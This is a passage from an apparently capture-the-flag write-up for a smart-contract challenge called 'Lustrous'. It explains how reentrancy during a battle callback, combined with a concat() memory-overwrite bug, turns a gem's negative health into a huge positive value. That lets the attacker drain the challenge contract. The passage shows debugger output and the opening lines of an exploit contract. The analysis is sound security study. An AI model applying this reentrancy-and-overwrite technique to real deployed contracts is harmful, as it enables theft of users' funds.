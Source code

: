 With this large amount of health, we can finally beat the last lunarian and win the last battle to drain the contract.

However if a gem's health is negative, it should have the status of destroyed, and we cant merge it.

But using that reentrancy I mentioned above, when it is doing the external call of decide_continue_battle() to our master contract in battle(), our health is being decreased and it can be negative, however during the external call the status of the gem is not updated yet even if it has a negative health.

So we can reenter to merge_gems() when the gem is still active but has a negative health, and because of the concat() bug, several bytes in the left side will be overwritten and because its using two's complement, a negative health will be changed to a large positive health.

So I will test it with foundry debugger, these 2 gems are the gems that Im merging :

```solidity
Gem({ health: -574, max_health: 101, attack: 46, hardness: 148, status: 1 })

Gem({ health: 34, max_health: 101, attack: 46, hardness: 148, status: 2 })
```

And the result is this merged gem :

```solidity
Gem({ health: 79228162514264337593543949796 [7.922e28], max_health: 202, attack: 92, hardness: 148, status: 1 })
```

![](https://i.imgur.com/xkgCNlW.png)

Originally, gem1.health is -574 (0xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffdc2), it is stored in memory 0x120.

It is concatenating `master_addr_bytes` (bytes20) with `sequence_bytes` (bytes4), `master_addr_bytes` is stored in memory 0x100, so it is doing mstore in memory 0x114 to concatenate it with `sequence_bytes`, and it overwrites the left 20 bytes in gem1.health :

![](https://i.imgur.com/RAR31JG.png)

So it is changed from -574 (0xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffdc2) to 79228162514264337593543949762 (0x0000000000000000000000000000000000000000fffffffffffffffffffffdc2)

Then it will add gem2.health (34) with it, so the merged gem has the health of 79228162514264337593543949796, and we have enough health to win the last battle to drain the challenge contract.

## Exploit contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import "./ILustrous.sol";
import "forge-std/console.sol";

contract lustrousExploit {
    ILustrous public lustrous;
    uint8[] public ans; 
    bool public reenter;

    constructor(ILustrous _lustrous) payable {
        require(msg.value == 1 ether, "msg.value != 1 ether");
        lustrous = _lustrous;
        lustrous.register_master();
        Gem memory gem = lustrous.create_gem{value: 1 ether}();
        require(gem.health - (int256(10000) / gem.hardness) > 0, "gem wont survive one attack from 1st lunarian");
```